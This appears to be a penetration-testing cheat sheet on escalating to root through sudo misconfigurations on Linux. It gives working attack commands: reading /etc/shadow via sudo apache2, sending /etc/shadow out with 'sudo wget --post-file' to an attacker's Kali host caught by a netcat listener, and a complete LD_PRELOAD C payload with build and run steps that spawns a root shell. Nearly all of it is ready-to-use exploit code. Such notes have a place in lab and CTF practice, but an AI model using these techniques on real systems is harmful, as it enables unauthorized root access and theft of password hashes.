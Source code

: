 
# Escalation Path: Sudo

Allow system administrator to delegate authority to run programs



## Shell Escaping

GTFOBins: https://gtfobins.github.io/
```bash
after sudo -l = to show files we can run with root privileges
go to GTFOBins to search the files we can execute
```

### Intended Functionality

There is no apache2 in gtfobins, but we can use this functionality to show shadow files:
```bash
sudo apache2 -f /etc/shadow
```

wget example: https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/


In target:
```bash
	sudo wget --post-file=/etc/shadow <kali ip:port> = We will send the shadow file to our PC, just listen with netcat to grab the file
```

In kali:
```bash
nc -lvnp <port>
```

### LD_PRELOAD
nano shell.c
```bash

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/fullpath/shell.so <something we can run as root>

```
